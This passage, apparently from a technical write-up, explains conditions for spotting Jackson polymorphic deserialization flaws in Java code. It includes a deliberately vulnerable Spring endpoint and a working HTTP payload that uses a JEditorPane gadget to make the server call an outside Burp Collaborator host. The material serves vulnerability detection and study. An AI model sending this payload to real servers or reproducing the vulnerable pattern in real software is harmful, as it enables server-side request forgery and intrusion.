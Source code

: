 #### The second feature is that when readingValue, the specified class itself is Object or it must contain Object type fields or Object type setters.
```java
public <T> T readValue(String content, JavaType valueType)
public <T> T readValue(Reader src, Class<T> valueType)
public <T> T readValue(Reader src, TypeReference valueTypeRef)
public <T> T readValue(Reader src, JavaType valueType)
```
So as long as this is matched, the second parameter needs to be parsed to confirm whether this Model is a Model that can be attacked. If it contains Object or is an Object itself, it is considered that condition B is hit.


#### The third feature is that in the deserialized class, there is a class annotated by JsonTypeInfo, and the content inside is `JsonTypeInfo.Id.CLASS` or `JsonTypeInfo.Id.MINIMAL_CLASS`. Note it as condition C.

The final condition is (A&&B) || C.


An example of C is given below:

```java
public class Jackson {

    static class AnotherBean {
        @JsonTypeInfo (use = JsonTypeInfo. Id. CLASS)
        public Object obj;
    }

    @RequestMapping(value = "/deserialize3", method = {RequestMethod. POST})
    @ResponseBody
    public static String deserialize3(@RequestBody String params) throws IOException {
        System.out.println(params);
        try {
            ObjectMapper objectMapper = new ObjectMapper();
            Object obj = objectMapper. readValue(params, AnotherBean. class);
            return obj.toString();
        } catch (Exception e){
            e.printStackTrace();
            return e.toString();
        }
    }

```
The corresponding payload is:
```http
POST /jackson/deserialize3 HTTP/1.1
Host: cqq.com:8080
Connection: close
Cookie: JSESSIONID=C48313A5CE14AE7A1C15696C03AE0893
Content-Type: application/json
Content-Length: 127

{"obj":{"@class":"javax.swing.JEditorPane","page":"http://ivh6gf9nkrbys3l03uppuzvv9mfg35.burpcollaborator.net:80/?a=1&b=2222"}}
```
